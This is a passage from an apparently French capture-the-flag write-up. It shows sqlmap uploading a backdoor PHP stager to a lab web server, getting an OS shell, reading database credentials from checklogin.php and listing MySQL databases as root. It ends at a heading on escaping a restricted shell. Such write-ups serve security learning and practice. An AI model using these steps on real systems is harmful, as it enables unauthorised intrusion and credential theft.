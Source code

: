 ```bash
john:~$ ls 
john:~$ echo 'lulz' > test.txt
*** forbidden syntax -> "echo 'lulz' > test.txt"                         
*** You have 0 warning(s) left, before getting kicked out.    
```
Je tombe sur un shell limité. Tentons autre chose par SQLmap : 
```bash
which web application language does the web server support?                   [45/1047]
[1] ASP                                                                                
[2] ASPX                                                                               
[3] JSP                                                                                
[4] PHP (default)                                                                      
> 4                                                                                    
[10:23:26] [INFO] retrieved the web server document root: '/var/www'                   
[10:23:26] [INFO] retrieved web server absolute paths: '/var/www/checklogin.php'       
[10:23:26] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TER$
INATED BY' method                                                                      
[10:23:26] [INFO] the file stager has been successfully uploaded on '/var/www/' - http:
//192.168.122.133:80/tmpuknkq.php
[10:23:26] [WARNING] unable to upload the file through the web file stager to '/var/www
/'
[10:23:26] [WARNING] backdoor has not been successfully uploaded through the file stage
r possibly because the user running the web server process has not write privileges ove
r the folder where the user running the DBMS process was able to upload the file stager
 or because the DBMS and web server sit on different servers
do you want to try the same method used for the file stager? [Y/n] 
[10:23:30] [INFO] the backdoor has been successfully uploaded on '/var/www/' - http://1
92.168.122.133:80/tmpbfeza.php
[10:23:30] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> ls
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:
---
checklogin.php
database.sql
images
index.php
```
Je vais donc explorer le dossier courant à la recherche de choses intéressantes : 
~~~bash   
ob_start();  
$host="localhost"; // Host name   
$username="root"; // Mysql username 
$password=""; // Mysql password 
$db_name="members"; // Database name    
$tbl_name="members"; // Table name  
~~~
Je trouve ici de jolis identifiants de base de données en ROOT.
~~~bash
os-shell> mysql -u root -p -e "show databases;"
do you want to retrieve the command standard output? [Y/n/a] 
command standard output:
---
Enter password: Database
information_schema
members
mysql
---
~~~
### Évasion de shell restreint 
